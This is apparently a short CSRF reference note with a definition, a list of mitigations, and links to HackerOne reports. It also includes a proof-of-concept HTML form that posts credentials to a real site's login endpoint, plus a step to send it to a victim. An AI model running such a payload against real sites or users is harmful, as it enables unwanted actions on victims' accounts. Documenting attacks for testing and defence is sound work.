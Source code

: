 # CSRF

>Cross Site Request Forgery is an attack that forces an end user to execute unwanted action on a web application in which they are currently authenticated.

## Prerequisites:
> User should have active session.

## Mitigation

1. CSRF Token: Token is added in hidden form field, unique per session, large random value.
1. Synchronizer Token Pattern
2. Encryption Based Token Pattern
3. Hash Based Token Pattern
4. Same Site Cookie Attribute
5. Double Submit Cookie (Cookie & request parameter).
6. Re-authentication, One-time token, Captcha (Strong CSRF defense).

## Test Cases:


1. Create a CSRF login POC using the following code.
```<html>
<body>
<form action="https://unikrn.com/apiv1/login" method="POST">
<input type="hidden" name="usr" value="[email]">
<input type="hidden" name="pwd" value="[password]">
<input type="submit" value="Submit request" />
</form>
</body>
</html>
```
2. Replace the email and password with the valid credentials.
3. Send the script to the victim to make them click.

## Example/POC :

* [CSRF logs the victim into attacker's account](https://hackerone.com/reports/339352)
* [CSRF: add item to victim's cart automatically (starbucks.com - updatecart)](https://hackerone.com/reports/177472)
* [login csrf in analytics.mopub.com](https://hackerone.com/reports/577920)
* [CSRF at (Apply to this program) that lead to submit your request automatic with out any validations](https://hackerone.com/reports/334253)
